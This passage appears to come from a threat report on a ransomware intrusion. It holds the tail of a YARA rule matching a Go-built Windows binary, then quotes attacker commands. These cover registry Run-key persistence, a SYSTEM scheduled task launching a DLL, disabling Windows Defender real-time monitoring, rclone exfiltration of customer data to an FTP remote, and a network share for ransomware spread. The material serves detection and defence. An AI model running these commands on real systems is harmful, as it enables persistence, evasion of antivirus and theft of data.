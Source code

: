 ```
      $s5 = "sweepWaiterstraceStringsspanSetSpinemspanSpecialgcBitsArenasmheapSpecialgcpacertracemadvdontneedharddecommitdumping heapchan rec" ascii
      $s6 = "sweepWaiterstraceStringsspanSetSpinemspanSpecialgcBitsArenasmheapSpecialgcpacertracemadvdontneedharddecommitdumping heapchan rec" ascii
      $s7 = "persistentalloc: align is too large/memory/classes/heap/released:bytesgreyobject: obj not pointer-alignedmismatched begin/end of" ascii
      $s8 = "shedworkbuf is not emptybad use of bucket.mpbad use of bucket.bpruntime: double waitws2_32.dll not foundforcegc: phase errorgopa" ascii
      $s9 = "pg on g0bad TinySizeClassg already scannedmark - bad statusscanobject n == 0swept cached spanmarkBits overflowRtlGetCurrentPeb" fullword ascii
      $s10 = "mheap.freeSpanLocked - invalid free of user arena chunkcasfrom_Gscanstatus:top gp->status is not in scan state is currently not " ascii
      $s11 = "runtime/rwmutex.go" fullword ascii
      $s12 = "runtime/internal/atomic.(*Pointer[go.shape.struct { runtime.stack runtime.stack; runtime.stackguard0 uintptr; runtime.stackguard" ascii
      $s13 = "*runtime.mutex" fullword ascii
      $s14 = "floating point errorGC sweep terminationResetDebugLog (test)chan send (nil chan)malloc during signalclose of nil channelnotetsle" ascii
      $s15 = "d errorrunlock of unlocked rwmutexsigsend: inconsistent statemakeslice: len out of rangemakeslice: cap out of rangegrowslice: le" ascii
      $s16 = "all goroutines stack tracenotewakeup - double wakeuppersistentalloc: size == 0/gc/cycles/total:gc-cyclesnegative idle mark worke" ascii
      $s17 = "IIIIIIIIIII" fullword wide /* reversed goodware string 'IIIIIIIIIII' */
      $s18 = "ABCDEFGHIJ" fullword wide /* reversed goodware string 'JIHGFEDCBA' */
      $s19 = "runtime.errorAddressString.Error" fullword ascii
      $s20 = "runqhead" fullword ascii
   condition:
      ( uint16(0) == 0x5a4d and filesize < 24000KB and ( 1 of ($x*) and 4 of them )
      ) or ( all of them )
}
```

The source also provides details about the PowerShell commands used for persistence via registry run keys:

```powershell
powershell -WindowStyle hidden -Command "if (-Not (Test-Path 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\App')) { Set-ItemProperty -Path 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run' -Name 'App' -Value '%PUBLIC%\\Music\\svchosts.exe' }"
```

The source also provides the scheduled task creation commands:
```
schtasks /create /ru SYSTEM /sc ONSTART /tn Update2 /tr "cmd /c rundll32 %PUBLIC%\music\svcmc.dll, MainFunc"
schtasks /run /TN Update2
```
And the commands to disable Windows Defender
```
powershell Set-MpPreference -DisableRealtimeMonitoring $True
```
The source also provides an example Rclone command used for data exfiltration:
```
"%PUBLIC%\Music\rclone.exe" copy E:\REDACTED\customers ftp1:REDACTED/customers -q --ignore-existing --REDACTED-confirm --multi-thread-streams 12 --transfers 12 --no-console
```
The source also provides the command that was used to establish the file share for the ransomware deployment:
```
"%WINDIR%\System32\cmd.exe" /C "%PUBLIC%\Music\SETUP.bat" net session net share share$=%PUBLIC%\Music /GRANT:Everyone,READ /Y
```
The source also provides the WMI commands used for ransomware distribution:
```
```